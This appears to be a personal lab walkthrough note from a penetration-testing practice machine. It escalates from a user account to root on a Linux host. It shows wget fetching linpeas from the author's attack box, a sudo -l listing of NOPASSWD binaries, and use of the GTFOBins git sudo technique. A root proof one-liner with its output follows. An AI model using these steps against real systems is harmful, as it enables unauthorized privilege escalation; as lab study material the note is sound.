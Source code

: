 I remember from linpeas since he last logged he likely has an account

```
sudo su gari
```
![[Pasted image 20231219104821.png]]
local.txt
`448d1cd9129fcfea94f6033ca2cc66d7`

Going to ssh in for a more stable connection
```
ssh hari@192.168.140.112
```

Download and run linpeas from my attack box with the new privileges as gari
```
wget http://192.168.49.140/linpeas.sh
```

From linpeas git has root access for gari.
Also con be confirmed by listing sudo commands 
```
sudo -l
```
    (root) NOPASSWD: /usr/bin/calendar
    (root) NOPASSWD: /usr/bin/bzmore
    (root) NOPASSWD: /usr/bin/git
    (root) NOPASSWD: /usr/bin/mcheck
    (root) NOPASSWD: /usr/bin/rdma

GTFO Bins
https://gtfobins.github.io/gtfobins/git/#sudo

![[Pasted image 20231219105908.png]]

Now I'm root
```sh
echo " "; echo "uname -a:"; uname -a; \
echo " "; echo "hostname:"; hostname; \
echo " "; echo "id"; id; \
echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \
echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "
```
	uname -a:
	Linux oscp 5.15.0-67-generic #74-Ubuntu SMP Wed Feb 22 14:14:39 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
	 
	hostname:
	oscp
	 
	id
	uid=0(root) gid=0(root) groups=0(root)
	 
	ifconfig:
	ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 192.168.140.112  netmask 255.255.255.0  broadcast 192.168.140.255
	        ether 00:50:56:8a:c5:5f  txqueuelen 1000  (Ethernet)
	        RX packets 107740  bytes 12984949 (12.9 MB)
	        RX errors 0  dropped 7847  overruns 0  frame 0
	        TX packets 64196  bytes 10026960 (10.0 MB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
